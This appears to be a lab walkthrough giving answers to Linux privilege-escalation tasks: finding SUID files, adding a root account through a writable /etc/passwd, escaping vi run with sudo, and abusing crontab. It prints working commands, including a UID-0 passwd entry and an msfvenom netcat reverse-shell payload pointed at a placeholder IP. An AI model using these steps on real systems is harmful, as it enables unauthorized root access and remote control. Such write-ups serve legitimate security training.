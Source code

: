 
## Task - 5: Abusing SUID/GUID Files

**Q: What is the path of the file in user3's directory that stands out to you?**

Answer: /home/user3/shell

Hint: find / -perm -u=s -type f 2>/dev/null (this will find all the files with SUID bit set)

**Also need to run this script ./shell  and it will give you root access**

## Task -6: Exploiting Writeable /etc/passwd

**Q: Having read the information above, what direction privilege escalation is this attack?**

Answer: vertical 

**Note: Exit from root user and enter as user7**

**Q: Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: "openssl passwd -1 -salt [salt] [password]"**

**What is the hash created by using this command with the salt, "new" and the password "123"?**

Answer: $1$new$p7ptkEKU1HnaHpRtzNizS1

Solution: user7@polobox:/home/user3$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1

**Q: Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for**
**a root user with the username "new" and the password hash we created before?**

Answer: new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root/bin/bash

(add this new user at very last of /etc/passwd with nano or vim editor. Exit and try to login with new user)

## Task - 7: Escaping Vi Editor

**Q: Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?**

Answer: nopasswd

**Note:** There is not much task but important logic to escape privileges by opening vi with sudo and typing :!sh, it will give you root access

## Task -8: Exploiting Crontab

**Q: What is the flag to specify a payload in msfvenom?**

Answer: -p 

**msfvenom -p cmd/unix/reverse_netcat lhost=$LOCALIP lport=8888 R**
**This script will generate reverse shell , use your IP. This payload will create a reverse shell connection to the IP address $YOUR_IP on port 8888** 

**Q: What directory is the "autoscript.sh" under?**

Answer: /home/user4/Desktop


